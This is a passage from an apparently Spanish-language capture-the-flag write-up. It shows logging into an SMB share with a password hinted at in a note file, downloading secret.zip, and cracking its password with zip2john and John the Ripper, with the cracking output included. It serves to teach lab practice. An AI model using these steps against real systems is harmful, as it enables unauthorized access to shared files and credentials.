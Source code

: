 Una vez hecho esto ya estariamos dentro veremos un archivo llamado `note.txt` que dice lo siguiente.

```
What would "sambaarribasiempre" be used for?
```

Vemos que es una posible contraseña del usuario `sambauser` en el puerto de `smb`.

## Escalate user root-false

### SMB

Nos conectaremos con el recurso compartido que vimos anteriormente y el usuario llamado `sambauser`.

```shell
smbclient //<IP>/read_only_share -U sambauser
```

Metemos la contraseña `sambaarribasiempre` y veremos que estamos dentro, si listamos veremos lo siguiente.

```
.                                   D        0  Tue Aug 27 05:21:22 2024
  ..                                  D        0  Tue Aug 27 05:21:22 2024
  secret.zip                          N      242  Tue Aug 27 05:21:14 2024
```

Hay un archivo `.zip` que nos descargaremos.

```shell
get secret.zip
```

Una vez descargado, nos saldremos del `smb` y lo intentaremos descomprimir, pero veremos que necesita contraseña, por lo que haremos lo siguiente.

### zip2john

```shell
zip2john secret.zip > hash
```

```shell
john --wordlist=<WORDLIST> hash
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
qwert            (secret.zip/secret.txt)     
1g 0:00:00:00 DONE (2024-08-27 10:22) 33.33g/s 1092Kp/s 1092Kc/s 1092KC/s 123456..eatme1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
